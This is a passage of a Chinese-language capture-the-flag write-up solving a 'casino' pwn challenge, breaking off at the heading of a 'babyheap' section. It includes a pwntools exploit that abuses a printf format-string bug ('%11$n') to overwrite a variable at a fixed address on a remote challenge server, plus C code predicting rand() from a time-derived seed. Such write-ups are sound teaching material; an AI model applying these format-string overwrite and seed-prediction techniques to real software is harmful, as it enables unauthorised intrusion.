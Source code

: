 ### <a class="reference-link" name="casino"></a>casino

这个题有点意思，首先是一个printf的洞

[![](https://p1.ssl.qhimg.com/t0121df0e46ed4fdb49.png)](https://p1.ssl.qhimg.com/t0121df0e46ed4fdb49.png)

时间种子和unix时间戳有关，后面循环99次，如果v5(累加和)大于100就打印flag

注意到这里循环只有99次，而bet只有1，也就是说就算数字正确99次，也不满足条件

正好printf还没用上，就用来把bet改成一个稍大的值，2就可以

```
from pwn import *
context.log_level = 'debug'

#p = process("./casino")
p = remote("35.243.188.20","2001")
payload = "aaa%11$n" + p64(0x602020)

p.send(payload)
p.interactive()
```

exp里只改了bet的值，然后交给终端交互，因为感觉time写起来有点麻烦，time和rand相关都交给C了

```
#include&lt;stdio.h&gt;
#include&lt;stdlib.h&gt;
#include&lt;string.h&gt;
#include&lt;time.h&gt;

int main(int argc, char**argv) `{`
    unsigned int t = time(0);
    unsigned int seed = t / 0xA + 3;
    srand(seed);
    for (int i = 0; i &lt; 100; i++) `{`
        printf("%d ", rand());
    `}`
    return 0;
`}`
```

因为时间种子是unix时间戳除以10，所以有很大的容错性…

把C代码输出结果喂给终端就可以了

不过有点坑的地方是，远程经常死在42/100和83/100，也没想到理由

然而换了个服务器就好了

### <a class="reference-link" name="babyheap"></a>babyheap

这个题目刚拿到的时候还是比较困恼的因为这里没有可以泄漏的函数，但是发现给我们的buf是一个空指针可以利用这个空指针进行操作。

#### <a class="reference-link" name="%E4%B8%BB%E7%A8%8B%E5%BA%8F"></a>主程序

